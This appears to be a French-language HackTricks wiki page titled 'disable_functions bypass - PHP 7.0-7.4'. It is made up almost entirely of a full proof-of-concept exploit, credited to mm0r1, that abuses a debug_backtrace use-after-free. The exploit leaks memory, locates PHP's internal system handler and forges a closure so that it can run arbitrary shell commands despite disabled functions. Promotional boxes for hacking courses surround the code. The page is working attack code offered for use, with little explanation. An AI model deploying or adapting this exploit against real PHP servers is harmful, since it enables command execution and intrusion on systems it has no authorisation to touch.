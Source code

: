 # disable\_functions bypass - PHP 7.0-7.4 (\*nix uniquement)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## PHP 7.0-7.4 (\*nix uniquement)

Depuis [https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)
```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
global $abc, $helper, $backtrace;

class Vuln {
public $a;
public function __destruct() {
global $backtrace;
unset($this->a);
$backtrace = (new Exception)->getTrace(); # ;)
if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
$backtrace = debug_backtrace();
}
}
}

class Helper {
public $a, $b, $c, $d;
}

function str2ptr(&$str, $p = 0, $s = 8) {
$address = 0;
for($j = $s-1; $j >= 0; $j--) {
$address <<= 8;
$address |= ord($str[$p+$j]);
}
return $address;
}

function ptr2str($ptr, $m = 8) {
$out = "";
for ($i=0; $i < $m; $i++) {
$out .= chr($ptr & 0xff);
$ptr >>= 8;
}
return $out;
}

function write(&$str, $p, $v, $n = 8) {
$i = 0;
for($i = 0; $i < $n; $i++) {
$str[$p + $i] = chr($v & 0xff);
$v >>= 8;
}
}

function leak($addr, $p = 0, $s = 8) {
global $abc, $helper;
write($abc, 0x68, $addr + $p - 0x10);
$leak = strlen($helper->a);
if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
return $leak;
}

function parse_elf($base) {
$e_type = leak($base, 0x10, 2);

$e_phoff = leak($base, 0x20);
$e_phentsize = leak($base, 0x36, 2);
$e_phnum = leak($base, 0x38, 2);

for($i = 0; $i < $e_phnum; $i++) {
$header = $base + $e_phoff + $i * $e_phentsize;
$p_type  = leak($header, 0, 4);
$p_flags = leak($header, 4, 4);
$p_vaddr = leak($header, 0x10);
$p_memsz = leak($header, 0x28);

if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
# handle pie
$data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
$data_size = $p_memsz;
} else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
$text_size = $p_memsz;
}
}

if(!$data_addr || !$text_size || !$data_size)
return false;

return [$data_addr, $text_size, $data_size];
}

function get_basic_funcs($base, $elf) {
list($data_addr, $text_size, $data_size) = $elf;
for($i = 0; $i < $data_size / 8; $i++) {
$leak = leak($data_addr, $i * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'constant' constant check
if($deref != 0x746e6174736e6f63)
continue;
} else continue;

$leak = leak($data_addr, ($i + 4) * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'bin2hex' constant check
if($deref != 0x786568326e6962)
continue;
} else continue;

return $data_addr + $i * 8;
}
}

function get_binary_base($binary_leak) {
$base = 0;
$start = $binary_leak & 0xfffffffffffff000;
for($i = 0; $i < 0x1000; $i++) {
$addr = $start - 0x1000 * $i;
$leak = leak($addr, 0, 7);
if($leak == 0x10102464c457f) { # ELF header
return $addr;
}
}
}

function get_system($basic_funcs) {
$addr = $basic_funcs;
do {
$f_entry = leak($addr);
$f_name = leak($f_entry, 0, 6);

if($f_name == 0x6d6574737973) { # system
return leak($addr + 8);
}
$addr += 0x20;
} while($f_entry != 0);
return false;
}

function trigger_uaf($arg) {
# str_shuffle prevents opcache string interning
$arg = str_shuffle(str_repeat('A', 79));
$vuln = new Vuln();
$vuln->a = $arg;
}

if(stristr(PHP_OS, 'WIN')) {
die('This PoC is for *nix systems only.');
}

$n_alloc = 10; # increase this value if UAF fails
$contiguous = [];
for($i = 0; $i < $n_alloc; $i++)
$contiguous[] = str_shuffle(str_repeat('A', 79));

trigger_uaf('x');
$abc = $backtrace[1]['args'][0];

$helper = new Helper;
$helper->b = function ($x) { };

if(strlen($abc) == 79 || strlen($abc) == 0) {
die("UAF failed");
}

# leaks
$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x58);
$abc_addr = $php_heap - 0xc8;

# fake value
write($abc, 0x60, 2);
write($abc, 0x70, 6);

# fake reference
write($abc, 0x10, $abc_addr + 0x60);
write($abc, 0x18, 0xa);

$closure_obj = str2ptr($abc, 0x20);

$binary_leak = leak($closure_handlers, 8);
if(!($base = get_binary_base($binary_leak))) {
die("Couldn't determine binary base address");
}

if(!($elf = parse_elf($base))) {
die("Couldn't parse ELF header");
}

if(!($basic_funcs = get_basic_funcs($base, $elf))) {
die("Couldn't get basic_functions address");
}

if(!($zif_system = get_system($basic_funcs))) {
die("Couldn't get zif_system address");
}

# fake closure object
$fake_obj_offset = 0xd0;
for($i = 0; $i < 0x110; $i += 8) {
write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
}

# pwn
write($abc, 0x20, $abc_addr + $fake_obj_offset);
write($abc, 0xd0 + 0x38, 1, 4); # internal func type
write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

($helper->b)($cmd);
exit();
}
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
